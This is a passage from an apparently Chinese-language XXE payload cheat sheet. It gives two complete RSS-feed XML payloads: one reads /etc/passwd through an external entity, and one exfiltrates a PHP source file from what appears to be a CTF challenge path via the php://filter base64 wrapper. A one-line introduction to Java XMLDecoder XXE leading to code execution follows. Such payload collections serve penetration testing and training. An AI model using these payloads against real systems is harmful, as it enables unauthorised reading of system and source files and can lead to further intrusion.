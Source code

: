 #### Read file

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

#### Read source code

使用 PHP base64 过滤器

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///challenge/web-serveur/ch29/index.php" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

### Java XMLDecoder XEE to RCE

XMLDecoder是一个基于XML消息创建对象的Java类。如果恶意用户可以通过应用程序能在readObject函数的调用中执行任意数据，就可以在服务器上进行代码执行。
